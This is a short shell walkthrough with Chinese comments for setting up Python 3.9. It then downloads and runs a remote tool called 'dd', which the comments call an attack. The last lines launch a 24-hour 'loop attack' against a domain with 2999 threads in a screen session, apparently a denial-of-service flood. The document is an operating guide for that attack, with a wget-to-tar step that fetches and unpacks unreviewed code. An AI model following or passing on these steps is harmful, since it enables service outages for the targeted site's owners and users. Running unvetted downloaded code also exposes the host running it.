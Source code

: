 # 刷新软件包索引
sudo apt update
sudo apt install software-properties-common
sudo add-apt-repository ppa:deadsnakes/ppa

# 按下 Enter 以继续
sudo apt install python3.9

# 添加使用 python3.9 为 python3 默认选项
sudo update-alternatives --install /usr/bin/python3 python3 /usr/bin/python3.9 3

# 确认版本
python3 --version

# 呈现版本
Python 3.9.+

# 切换活动的 Python 版本
sudo update-alternatives --config python3

# 更新终端脚本
sudo nano /usr/bin/gnome-terminal


# 添加apt-get模块
sudo apt-get install python3-apt --reinstall


# 载入本脚本
wget -c https://github.com/xhjvpn/dd/releases/download/dd/dd.tar.gz -O - | tar -xz

# 打开路径
cd dd

# 备用
pip install --upgrade pip

# 添加apt-get模块
apt install python3-pip


# 安装依赖
pip3 install -r requirements.txt

# 安装pip+pip3
python3 d1.py

# 运行攻击
python3 dd.py

# 快捷循环攻击举例
# screen后台运行 python3依赖 dd.py脚本 域名\线程\运行24小时后停止

screen python3 dd.py https:99999999999.com 2999 43200

